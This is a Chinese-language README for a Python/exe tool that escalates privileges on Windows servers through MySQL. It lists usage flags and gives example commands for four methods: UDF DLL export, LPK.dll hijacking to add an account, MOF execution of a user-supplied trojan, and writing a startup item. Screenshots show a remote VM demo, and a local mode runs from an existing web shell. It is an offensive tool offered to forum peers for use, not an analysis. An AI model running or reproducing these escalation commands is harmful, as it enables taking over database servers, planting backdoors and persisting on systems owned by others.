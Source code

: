 # python-promoting-privileges

1.自动导出你的backdoor和mof文件，

2.自动判断mysql版本，根据版本不同导出UDF的DLL到不同目录，UDF提权

3.导出LPK.dll文件，劫持系统目录提权

4.写启动项提权 

工具仅做方便使用，技术含量几乎没有。

用py脚本写的，也打包成exe了，个人用的还算顺手。

用法：
```
promote:PythonDemo v5est0r$ python root.py
  __            _    __  __       ____   ___  _
 / _|_   _  ___| | _|  \/  |_   _/ ___| / _ \| |
| |_| | | |/ __| |/ / |\/| | | | \___ \| | | | |      Author：v5est0r
|  _| |_| | (__|   <| |  | | |_| |___) | |_| | |___
|_|  \__,_|\___|_|\_\_|  |_|\__, |____/ \__\_\_____|
                            |___/

usage: root.py [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD] [-e EXECUTE]
               [-m METHOD]

fuckmysql

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  MySQL server ip
  -o PORT, --port PORT  MySQL Port
  -u USER, --user USER  mysql UserName
  -p PASSWD, --passwd PASSWD
                        mysql password
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
  -m METHOD, --method METHOD
                        elevate method,eg:udf/mof/lpk/st
```
![Alt text](./pic/vashvJHVAJSHVCJHavj.png)

我在虚拟机演示打包好的exe远程提权，坛子的老哥们都是明白人，我就不多说了，直接上图：

默认UDF提权，也可以`-m udf`指定方式，`-e ipconfig`指定执行的cmd，默认执行whoami：
```
root.exe -a 192.168.1.105 -p root -e "ver&whoami" -m udf
```

![Alt text](./pic/jhfashvhavha.png)

有时候UDF无效，我们使用LPK.dll劫持：

```
root.exe -a 192.168.1.105 -p root -m lpk
```

![Alt text](./pic/hasjhvjhas.png)

验证一下lpk是否加上账户:

![Alt text](./pic/hbashjvchjasvh.png)

有时候UDF和LPK都无效，目标是windows2003，还有机会，可以MOF：

把你的木马的hex复制到同目录的hex.txt就行了，程序会导出木马到指定目录，并用mof执行。

![Alt text](./pic/avavJHdaHjadkj.png)

每隔几秒就运行一次木马，有点尴尬，如何停止mof老司机都知道，我就不多说了。

![Alt text](./pic/hbajhvjhasJdavkjdJBAS.png)

有时候UDF和LPK都无效，那我们只能尝试被动写启动项：

```
root.exe -a 192.168.1.105 -p root -m st
```
![Alt text](./pic/jvaJHVJC.png)

可能存在路径编码问题写不成功，你可以根据提示，用本地的MySQL连接上去，执行。

![Alt text](./pic/vqfjhvajshcvasnCAKQJ.png)

当然还有情况是远程提权，UDF不能创建plugin目录，网上流传的ADS流创建目录我是没有成功过，工具里加了ADS流创建目录的代码，那么我们删掉plugin目录，再远程试试：

![Alt text](./pic/jhvcajhvhacsHGXCfxafxG.png)

如上图，那就不行了，那么这种情况下，如果你有shell，在shell里的本地模式执行，就不一样了。

本地模式：
一般来说，php一般权限都是可以创建目录的，此处必须指定主机为`localhost或127.0.0.1`才会调用本地模式：
```
root.exe -a localhost -p root -e "ver&whoami" -m udf
```

![Alt text](./pic/jqwhvdqhvhavshHHVJHV.png)
